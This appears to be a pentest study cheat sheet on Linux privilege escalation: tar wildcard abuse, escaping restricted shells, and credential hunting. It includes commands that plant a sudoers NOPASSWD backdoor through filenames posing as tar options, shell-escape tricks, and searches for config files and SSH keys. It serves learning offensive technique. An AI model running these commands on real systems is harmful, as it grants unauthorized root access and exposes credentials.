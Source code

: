 
###### Wildcard Abuse

- A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions.

  - An example of how wildcards can be abused for privilege escalation is the tar command

  - --checkpoint-action option permits an EXEC action to be executed when a checkpoint is reached

  - --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.

  ```bash
   echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

  echo "" > "--checkpoint-action=exec=sh root.sh"

  echo "" > --checkpoint=1

  ls -la
  ```

###### Escaping Restricted Shells

- In a restricted shell, the user is only allowed to execute a specific set of commands or only allowed to execute commands in specific directories.

- Restricted shell : `rbash, rksh, rzsh...`
  **Techniques de bypass**
- `Command injection` :
  - Imagine that we are in a restricted shell that allows us to execute commands by passing them as arguments to the ls command.
  ```bash
  ls -l `pwd`
  # readfile
  echo "$(<FileToReadName.txt )"
  while read line; do echo $line; done < <FilePath>; echo $line
  ```
- `command substitution` : This involves using the shell's command substitution syntax to execute a command.

- In some cases, it may be possible to escape from a restricted shell by using `command chaining`.

- it may be possible to escape from a restricted shell by using `shell functions`

###### Credential Hunting

- When enumerating a system, it is important to note down any credentials. These may be found in configuration files (.conf, .config, .xml, etc.), shell scripts, a user's bash history file, backup (.bak)

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

# ssh keys
 ls ~/.ssh
```
